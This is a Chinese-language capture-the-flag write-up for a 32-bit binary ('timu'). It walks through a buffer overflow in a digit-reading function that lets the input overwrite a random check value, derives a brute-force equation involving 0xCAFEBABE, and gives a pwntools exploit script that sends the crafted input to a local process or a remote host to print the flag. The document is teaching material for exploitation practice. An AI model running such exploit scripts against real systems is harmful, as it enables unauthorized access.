

巧妙的爆破
前言
有一说一，题目漏洞很简单，看明白wp后整个题目也不难。但是这个爆破一开始着实没什么思路，特别记录并且总结一下。
实例 timu
点击附件链接
保护分析
首先查看一下程序相关的保护机制

基本上除了栈不可执行以外，就没有开启什么保护机制
漏洞分析
这道题目的逻辑结构格外的简单，如下所示
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40int __cdecl read_num(void *buf, size_t nbytes)
{
ssize_t v3; // [esp+8h] [ebp-10h]
ssize_t i; // [esp+Ch] [ebp-Ch]
v3 = read(0, buf, nbytes);
for ( i = 0; i < v3; ++i )
{
if ( (*((char *)buf + i) <= 0x2F || *((char *)buf + i) > 0x39) && *((_BYTE *)buf + i) != 0xA )
return 0;
}
return 1;
}
int __cdecl main(int argc, const char **argv, const char **envp)
{
unsigned int v3; // eax
__int64 v4; // rax
__int64 v6; // [esp+0h] [ebp-30h]
char nptr[8]; // [esp+Ch] [ebp-24h] BYREF
int v8; // [esp+14h] [ebp-1Ch]
int *v9; // [esp+24h] [ebp-Ch]
v9 = &argc;
v3 = time(0);
srand(v3);
v8 = rand();
if ( read_num(nptr, 12u) )
{
v6 = v8;
v4 = atoll(nptr);
if ( HIDWORD(v4) ^ HIDWORD(v6) | (unsigned int)v4 ^ (unsigned int)v6 ^ 0xCAFEBABE )
puts("try again!");
else
system("cat flag");
}
return 0;
}
可以看到，其逻辑就是一个读取，然后验证读取。
因此，很明显，我们需要做的就是绕过该验证即可。
如果在细心的观察一下该程序，根据ida自动生成的注释信息，我们很容易发现read_num(nptr, 12u)处存在一个缓冲区溢出漏洞——实际上nptr的大小应该是8字节的，因此该程序应该是通过缓冲区溢出，覆盖掉一些重要数据，从而完成验证的绕过。
漏洞利用
这里我们在详细的分析一下验证部分的代码，即
1
if( HIDWORD(v4) ^ HIDWORD(v6) | (unsigned int)v4 ^ (unsigned int)v6 ^ 0xCAFEBABE)
实际上，由于$v6 = v8$，而v8是int类型的，因此$HIDWORD(v6) = 0$。则为了使验证机制通过，则必须有$HIDWORD(v4) = 0$，即atoll(input[0:12])不要太大即可。
下面由于v4 = atoll(nptr)，且(unsigned int)v6恰好可以被输入覆盖掉，因此该条件相当于$atoll(input[0:12]) \otimes u32(input[8:12]) \otimes 0xcafebabe = 0$，即$atoll(input[0:12]) \otimes u32(input[8:12]) = 0xcafebabe$。
因此，我们只要找到满足上面条件的input即可。虽然如此，一开始看到这个约束，仍然没有什么较好的思路去解决
实际上，我们可以将输入分为input[0:8]和input[8:12]，则约束转换为$(atoll(input[0:8]) \times 10000 + atoll(input[8:12])) \otimes u32(input[8:12]) = 0xcafebabe$，即$atoll(input[0:8]) \times 10000 = (0xcafebabe \otimes u32(input[8:12])) - atoll(input[8:12])$
此时，变成了两个独立变量的等式，我们用更为精确的方式来描述
由于y变量的范围比较小，则可以通过爆破y，从而解出x，进而恢复出输入。
根据上述等式，只要$((0xcafebabe \otimes u32(y)) - atoll(y)) \% 10000 = 0$，则y满足条件，且有$x = ((0xcafebabe \otimes u32(y)) - atoll(y)) / 10000$
剩下就通过脚本进行简单的爆破即可。
看着推起来一帆风顺，甚至有点简单，但是一开始根本没想到要将输入分割成两个无关的变量，数学功底退步了
实现
根据上面的分析，直接写一个小脚本爆破出x和y，然后拼装成输入即可，如下所示
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42#!/usr/bin/python2
# -*- coding:utf-8 -*-
from pwn import *
import sys
import platform
'''
待修改数据
'''
context.log_level = 'debug'
context.arch = 'i386' # 32位使用i386
context.os = 'linux'
#context.terminal = ['tmux', 'splitw', '-h']
execve_file = './timu'
log.info('-----------------------------------------------------------')
def getAnswer():
for i in range(10000):
if((0xcafebabe ^ u32(str(i).rjust(4, '0'))) - i) % 10000 == 0:
return i
def exp():
if 'd' in sys.argv:
r = process(execve_file)
else:
r = remote(sys.argv[1], sys.argv[2])
y = getAnswer()
x = int(((0xcafebabe ^ u32(str(y).rjust(4, '0'))) - y) / 10000)
r.send(str(x * 10000 + y).rjust(12, '0'))
r.recvall()
exp()
log.info('-----------------------------------------------------------')